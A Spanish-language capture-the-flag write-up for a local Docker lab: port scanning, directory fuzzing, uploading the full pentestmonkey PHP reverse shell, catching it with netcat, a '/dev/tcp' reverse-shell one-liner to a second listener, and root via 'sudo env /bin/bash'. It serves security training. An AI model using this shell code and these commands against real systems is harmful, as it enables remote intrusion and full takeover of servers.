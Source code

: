 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh upload.tar
```

![Pasted image 20250129170850](https://github.com/user-attachments/assets/625fb784-e15c-4404-ae86-ef01257a99ea)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250129171010](https://github.com/user-attachments/assets/dd899ca4-7367-4e67-b724-b5247bf4a2cb)

Hacemos Fuzzing:

```Bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

![Pasted image 20241211175541](https://github.com/user-attachments/assets/d2aa4234-257c-4b88-83b4-f56a04d8c076)

Nos metemos en la web:

![Pasted image 20241211175247](https://github.com/user-attachments/assets/f6f0ecf6-66cf-47d4-be28-38f9024ddd6a)

![Pasted image 20241211175322](https://github.com/user-attachments/assets/01415bb3-7c03-4bca-950d-32c9a12c8d78)

Creamos payload en PHP:

![Pasted image 20241211182210](https://github.com/user-attachments/assets/2b2bc2eb-1707-4941-9ed5-aa7b42a8b188)

Creamos shell.php:

```Bash
nano shell.php
```

![Pasted image 20241211175648](https://github.com/user-attachments/assets/f801fbc0-87d7-4942-9ed2-cf4dcae7b6c0)

Pegamos código PHP:

```PHP
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '172.17.0.2';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

![Pasted image 20241211182142](https://github.com/user-attachments/assets/d04ee130-2196-4c6c-acf4-5f9e95ed8ae8)

Subimos archivo PHP:

![Pasted image 20241211180228](https://github.com/user-attachments/assets/b5f44bb0-c608-4b6f-9e66-e5ec14d04154)

![Pasted image 20241211180322](https://github.com/user-attachments/assets/9b8bc42b-891c-4b5a-a956-3ccfb9c5070a)

Archivo subido:

![Pasted image 20241211180338](https://github.com/user-attachments/assets/1a2e2bf2-bc74-4ff1-a31f-11b93de718d5)

Comprobamos el archivo:

![Pasted image 20241211180358](https://github.com/user-attachments/assets/579b21df-a931-4833-8e73-b44f304d94cf)

Escuchamos en el puerto 4444:

```Bash
nc -lnvp 4444
```

![Pasted image 20241211180521](https://github.com/user-attachments/assets/cd87fb8e-3271-4317-b853-37e4118fd95c)

Escuchamos en otro puerto 443:

```Bash
nc -lnvp 443
```

![Pasted image 20241211184613](https://github.com/user-attachments/assets/a6020122-6a29-456d-880f-c99dc085d5c8)

Pinchamos en el archivo:

![Pasted image 20241211180553](https://github.com/user-attachments/assets/b4501304-d08c-4b8a-91d2-8167957332d7)

Recibimos conexión:

![Pasted image 20250129173437](https://github.com/user-attachments/assets/b787e7a8-f28a-4715-b9cf-ddfb621a65d1)

Metemos el siguiente comando para enviar la conexión a la otra shell:

```Bash
bash -c "bash -i >& /dev/tcp/10.0.2.42/443 0>&1"
```

![Pasted image 20250129173458](https://github.com/user-attachments/assets/9040da23-c5b2-486a-996e-a159b3cb1915)

Miramos la otra shell:

![Pasted image 20250129173703](https://github.com/user-attachments/assets/8e89b412-30f6-4a07-a035-baf2d8fb2079)

Elevamos privilegios:

```Bash
sudo -l
```

![Pasted image 20241211183648](https://github.com/user-attachments/assets/1be405ef-83c2-4f02-b1f0-86f23ed16e3c)

```Bash
sudo env /bin/bash
```

![Pasted image 20250129173331](https://github.com/user-attachments/assets/962fc77a-a52c-4fb3-a70c-87d42332e84b)

```Bash
/bin/bash -i
```

![Pasted image 20250129173357](https://github.com/user-attachments/assets/5ba49832-273d-4d49-afbd-bdee5ad70d84)

```Bash
whoami
```

![Pasted image 20250129173804](https://github.com/user-attachments/assets/bb0fdbae-9d9d-4681-85d7-00737bff4ccd)

